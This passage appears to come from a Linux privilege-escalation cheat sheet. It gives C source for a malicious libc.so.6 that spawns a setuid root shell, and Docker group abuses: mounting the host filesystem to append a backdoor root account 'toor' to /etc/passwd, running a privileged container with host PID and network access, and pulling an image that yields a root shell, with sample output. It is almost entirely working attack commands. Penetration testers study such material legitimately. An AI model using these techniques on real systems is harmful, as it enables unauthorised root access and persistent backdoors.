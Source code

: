 Then create an evil library in `/var/tmp` with `gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6`

```powershell
#include<stdlib.h>
#define SHELL "/bin/sh"

int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
 char *file = SHELL;
 char *argv[] = {SHELL,0};
 setresuid(geteuid(),geteuid(), geteuid());
 execve(file,argv,0);
}
```

## Groups

### Docker

Mount the filesystem in a bash container, allowing you to edit the `/etc/passwd` as root, then add a backdoor account `toor:password`.

```bash
$> docker run -it --rm -v $PWD:/mnt bash
$> echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
```

Almost similar but you will also see all processes running on the host and be connected to the same NICs.

```powershell
docker run --rm -it --pid=host --net=host --privileged -v /:/host ubuntu bash
```

Or use the following docker image from [chrisfosterelli](https://hub.docker.com/r/chrisfosterelli/rootplease/) to spawn a root shell

```powershell
$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
latest: Pulling from chrisfosterelli/rootplease
2de59b831a23: Pull complete 
354c3661655e: Pull complete 
91930878a2d7: Pull complete 
a3ed95caeb02: Pull complete 
489b110c54dc: Pull complete 
Digest: sha256:07f8453356eb965731dd400e056504084f25705921df25e78b68ce3908ce52c0
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell

sh-5.0# id
uid=0(root) gid=0(root) groups=0(root)
```
